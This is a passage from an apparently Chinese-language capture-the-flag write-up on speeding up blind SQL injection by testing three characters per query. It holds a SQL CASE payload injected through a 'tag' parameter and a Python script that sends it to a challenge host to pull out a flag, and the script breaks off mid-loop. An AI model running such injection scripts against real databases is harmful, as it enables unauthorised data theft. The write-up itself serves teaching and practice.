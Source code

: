 ### 加速：一次試三個

其實仔細觀察可以發現，我們可以控制的回傳結果有四種：

1. home1 home2 一起出現（當 tag 是 1）
2. 只有 home1 出現（當 tag 是 2）
3. 只有 home2 出現（當 tag 是 5）
4. 兩個都沒出現（當 tag 是 10）

而剛剛的攻擊方式，我們只用到了兩個狀況，如果四個都利用的話，速度會變成三倍。

利用的方式很簡單，就是我們可以從原本一次試一個，變成一次試三個，像是這樣：

``` sql
(select case
  when (content like "a%") then 1
  when (content like "b%") then 2
  when (content like "c%") then 5
  else 10
end from flag)
```

一個 query 可以試三個字元，速度提升了三倍，腳本如下：

``` python
# exploit-search-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
result = 'cymetrics{'

start = time.time()
while True:
  found = False
  for i in range(0, len(char_set), 3):
    chars = char_set[i:i+3]
    while len(chars) < 3:
      chars += 'a'
    payload = f'''
    (select case
      when (content like "{result+chars[0]}%") then 1  
      when (content like "{result+chars[1]}%") then 2  
      when (content like "{result+chars[2]}%") then 5
      else 10
     end from flag)
    '''
    print("trying " + str(chars))
    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if response.ok:
      data = json.loads(response.text)
      if len(data) == 2:
        result+=chars[0]
        found = True
      elif len(data) == 0:
        continue
```